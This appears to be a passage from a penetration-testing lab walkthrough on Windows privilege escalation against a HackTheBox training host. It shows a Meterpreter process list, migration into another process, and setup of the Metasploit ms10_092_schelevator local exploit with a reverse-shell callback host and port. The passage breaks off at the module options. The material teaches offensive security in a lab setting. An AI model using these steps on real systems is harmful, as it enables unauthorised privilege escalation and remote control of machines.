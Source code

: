 ```shell-session
 756   1800  VMwareTray.exe     x86   2        WINLPE-2K8\htb-student  C:\Program Files (x86)\VMware\VMware Tools\VMwareTray.exe
 764   476   svchost.exe
 800   476   svchost.exe
 844   476   svchost.exe
 900   476   svchost.exe
 940   476   svchost.exe
 976   476   spoolsv.exe
 1012  476   sppsvc.exe
 1048  476   svchost.exe
 1112  476   VMwareService.exe
 1260  2460  powershell.exe     x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1408  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 1464  900   dwm.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\dwm.exe
 1632  476   svchost.exe
 1672  600   WmiPrvSE.exe
 2140  2460  cmd.exe            x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\cmd.exe
 2256  600   WmiPrvSE.exe
 2264  476   mscorsvw.exe
 2268  2628  rundll32.exe       x86   2        WINLPE-2K8\htb-student  C:\Windows\SysWOW64\rundll32.exe
 2460  2656  explorer.exe       x64   2        WINLPE-2K8\htb-student  C:\Windows\explorer.exe
 2632  2032  csrss.exe
 2796  2632  conhost.exe        x64   2        WINLPE-2K8\htb-student  C:\Windows\System32\conhost.exe
 2876  476   svchost.exe
 3048  476   svchost.exe
 
 
meterpreter > migrate 2796

[*] Migrating from 2268 to 2796...
[*] Migration completed successfully.


meterpreter > background

[*] Backgrounding session 1...
```

### Setting Privilege Escalation Module Options
```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options

Module options (exploit/windows/local/ms10_092_schelevator):
   Name      Current Setting  Required  Description
```
